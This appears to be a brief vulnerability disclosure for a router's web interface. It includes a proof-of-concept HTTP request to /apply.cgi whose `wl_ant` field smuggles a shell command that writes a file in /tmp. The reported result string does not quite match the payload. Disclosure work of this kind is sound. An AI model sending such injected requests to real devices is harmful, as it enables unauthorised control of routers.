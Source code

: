 # wl_ant

in function `start_EPI`, we can inject `wl_ant` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 129
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_ant=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s
```



# result
I successfully touch a file with the content "hacker_payload_ttcp_size"
![alt text](imgs/image.png)